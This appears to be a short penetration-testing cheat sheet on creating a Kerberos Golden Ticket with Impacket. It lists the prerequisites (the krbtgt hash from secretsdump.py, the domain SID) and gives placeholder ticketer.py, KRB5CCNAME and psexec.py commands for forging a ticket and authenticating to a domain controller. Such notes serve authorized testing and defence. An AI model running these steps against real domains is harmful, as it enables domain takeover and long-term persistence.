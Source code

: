 # Create Golden Ticket

**Description:** A Golden Ticket attack is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Ticket Granting Tickets (TGTs). \ 
This attack will allow you to persist in an environment almost indefinitely.

**Requirements:**

* Impacket

## Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller. 
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller. 
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain. 

## Creating a Golden Ticket on Linux with Impacket

Use ticket.py to customize, sign, and save the ticket: \
```ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]```

Export the ticket: \
```export KRB5CCNAME=[USER.CCACHE]```

Authenticate with the created ticket to the domain controller: \
```psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]

## References
* [Microsoft Active Directory Golden Ticket Attacks Explained](https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained/)
